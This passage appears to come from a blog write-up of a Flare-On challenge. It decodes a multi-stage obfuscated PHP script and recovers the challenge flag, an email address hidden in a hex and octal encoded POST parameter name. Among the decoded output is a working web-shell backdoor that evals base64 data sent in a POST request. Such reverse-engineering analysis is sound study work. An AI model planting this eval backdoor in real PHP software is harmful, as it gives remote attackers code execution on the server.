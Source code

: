 {% endhighlight %}

{% highlight bash  %}
# php extract2.php 
$code=base64_decode($_);eval($code);
#
{% endhighlight %}

And we see that in the third stage the script is base64 decoding the '$_' variable and executing it with eval. We can do the same with changing eval to echo but we already have the base64, let's just do it on the command line this time.

{% highlight bash  %}
# echo -n 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9' | base64 -d

if (isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"]))
{
	eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]));
};
# 
{% endhighlight %}

I changed the formatting a little just for readability. Now we see a mix of HEX and octal obfuscation. If we convert the keys starting with "\x" from HEX to ASCII and the keys in octal form starting with "\[num]" using python we get the following.

{% highlight python  %}
# python
>>> print chr(97) + chr(49) + "\x31" + chr(68) + "\x4F\x54" + chr(116) + chr(104) + "\x61" + chr(116) + "\x44" + chr(79) + "\x54" + chr(106) + chr(97) + chr(118) + chr(97) + chr(53) + "\x63" + chr(114) + "\x61\x70" + chr(65) + chr(84) + chr(102) + "\x6C\x61" + chr(114) + chr(101) + "\x44" + chr(65) + "\x53" + chr(72) + chr(111) + "\x6E\x44\x4F" + chr(84) + chr(99) + "\x6F\x6D"
a11DOTthatDOTjava5crapATflareDASHonDOTcom
>>> 
{% endhighlight %}

> a11.that.java5crap@flare-on.com

## Links

* <http://flare-on.com/>
